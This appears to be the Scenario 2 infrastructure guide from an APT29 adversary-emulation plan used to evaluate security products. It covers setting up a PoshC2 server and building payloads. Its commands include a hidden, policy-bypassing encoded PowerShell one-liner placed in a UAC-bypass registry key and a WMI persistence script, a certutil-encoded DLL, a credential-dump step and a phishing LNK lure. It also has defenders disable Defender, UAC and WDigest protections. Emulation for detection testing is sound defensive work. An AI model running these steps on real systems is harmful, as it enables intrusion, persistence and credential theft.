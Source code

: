 # Scenario 2 Infrastructure

We hope to capture the general structure of what is reported to have been seen being used by APT29.  The infrastructure listed below is specific to Scenario 2.  The requirements described herein should be considered a bare minimum to execute the scenario.  If you have the time and resources to remain true-to-form, you may elect to stand up multiple of each of these servers, non-contiguous IP space, etc.  If you are not concerned with emulating APT29 to this degree, this level of effort is not necessary.  You could for instance, phish, serve payload, and exfil from/to the same server.

Please note that binary files hosted in [Scenario_1](/Enterprise/apt29/Resources/Scenario_1) and [Scenario_2](/Enterprise/apt29/Resources/Scenario_2) have been added to password protected zip files.  The password for these files is "malware."

---

## Emulation Team Infrastructure

1. Server running an offensive framework (we tested and executed using PoshC2 -- <https://github.com/nettitude/PoshC2>) capable of:
    - Executing native PowerShell commands
    - Loading and executing PowerShell scripts (.ps1)
    - Generating a DLL payload and an encoded PowerShell oneliner
    - Receiving and maintaining multiple callbacks at once
2. Online OneDrive Account (<https://onedrive.live.com/>)

---

## Emulation Team Infrastructure Configuration

### A note about red team payloads

- Pre-compiled payloads are available in the [resources](/Enterprise/apt29/Resources) directory; however, they are configured to connect back to static IP addresses 192.168.0.5 and 192.168.0.4.

### Generate an encoded PowerShell oneliner payload, then copy

1. Just the encoded portion (ex: `WwBTAH...=`) into `$enc_ps variable` (4th line from bottom) in [schemas.ps1](/Enterprise/apt29/Resources/Scenario_2/schemas.ps1)
    - ex: `$enc_ps = "WwBTAH...=="`
2. The entire value (ex: `powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...=`) into `CommandLineTemplate` variable (under `$ConsumerArgs` in 2nd paragraph) in [stepFifteen_wmi.ps1](/Enterprise/apt29/Resources/Scenario_2/stepFifteen_wmi.ps1)
    - ex: `CommandLineTemplate="powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...="`
3. The entire value (ex: `powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...=`) into `-Value` variable (2nd line) in [stepFourteen_bypassUAC.ps1](/Enterprise/apt29/Resources/Scenario_2/stepFourteen_bypassUAC.ps1)
    - ex: `New-Item -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Value "powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...="`

#### Generate DLL payload, then on a separate Windows host

1. [CMD] > `certutil -encode [file].dll blob`
2. [CMD] > `powershell`
3. [PS] > `$blob = (Get-Content .\blob) -join ""; $blob > .\blob`
4. Open `blob` file in text editor
5. Delete new line at end of file and copy all (CTRL-A, CTRL-C)
6. Paste value (ex: `-----BEGIN CERTIFICATE-----...-----END CERTIFICATE-----`) into `$bin` variable (6th line) in `schemas.ps1`

#### Copy [payloads](/Enterprise/apt29/Resources/Scenario_2/) to C2 server (wherever is appropriate for your C2 framework to have access to these files)

#### Update [stepFourteen_credDump.ps1](/Enterprise/apt29/Resources/Scenario_2/stepFourteen_credDump.ps1) -- directions are in file

#### Prepare initial access payloads

1. Login as non-domain admin user
2. Copy over the following files onto the Desktop of the initial victim:

   - [2016_United_States_presidential_election_-_Wikipedia.html](/Enterprise/apt29/Resources/Scenario_2/2016_United_States_presidential_election_-_Wikipedia.html)
   - [make_lnk.ps1](/Enterprise/apt29/Resources/Scenario_2/make_lnk.ps1)
   - [schemas.ps1](/Enterprise/apt29/Resources/Scenario_2/schemas.ps1)

3. Copy over [MITRE-ATTACK-EVALS.HTML](/Enterprise/apt29/Resources/Scenario_2/MITRE-ATTACK-EVALS.HTML) into the Documents folder of the initial victim
4. Execute `make_lnk.ps1` (Right click > Run with PowerShell), this will generate `37486-the-shocking-truth-about-election-rigging-in-america.rtf.lnk`
5. Drag `make_lnk.ps1` and `schemas.ps1` to Recycle Bin and empty the Recycle Bin (Right click > Empty Recycle Bin)

---

## Target Infrastructure

1. 3 targets
    - 1 domain controller and 2 workstations
    - All Windows OS (tested and executed against Win10 1903)
    - Domain joined with at least 2 accounts (domain admin and another user)
2. Microsoft Outlook must be available locally on one of the victim workstations

---

## Target Infrastructure Configuration

### For each of the three targets

1. Login in as domain admin user
2. Ensure Windows Defender is off or configured to alert-only (<https://support.microsoft.com/en-us/help/4027187/windows-10-turn-off-antivirus-protection-windows-security>)
3. Change network type to Domain (<https://www.itechtics.com/change-network-type-windows-10/#2-_Setting_network_type_using_Windows_Registry>)
4. Set UAC to never notify (<https://articulate.com/support/article/how-to-turn-user-account-control-on-or-off-in-windows-10>)
5. Enable WinRM (<https://support.microsoft.com/en-us/help/555966>)
6. Enable UseLogonCredential in the WDigest Registry settings (<https://support.microsoft.com/help/2871997/microsoft-security-advisory-update-to-improve-credentials-protection-a>)

#### For the initial target (the workstation with Microsoft Outlook)

1. Login as non-domain admin user
2. Enable programatic access to Microsoft Outlook (<https://www.slipstick.com/developer/change-programmatic-access-options/>)
3. Open Outlook and sign in if necessary

---

## Additional Plan Resources

- [Intelligence Summary](/Enterprise/apt29/Intelligence_Summary.md)
- [Operations Flow](/Enterprise/apt29/Operations_Flow.md)
- [Emulation Plan](/Enterprise/apt29/Emulation_Plan/README.md)
  - [Scenario 1 - Infrastructure](/Enterprise/apt29/Emulation_Plan/Scenario_1/Infrastructure.md)
  - [Scenario 1](/Enterprise/apt29/Emulation_Plan/Scenario_1/README.md)
  - [Scenario 2 - Infrastructure](/Enterprise/apt29/Emulation_Plan/Scenario_2/Infrastructure.md)
  - [Scenario 2](/Enterprise/apt29/Emulation_Plan/Scenario_2/README.md)
  - [YAML](/Enterprise/apt29/Emulation_Plan/yaml)
- [Archive](/Enterprise/apt29/Archive)
- [Issues](https://github.com/attackevals/ael/issues)
- [Change Log](/Enterprise/apt29/CHANGE_LOG.md)
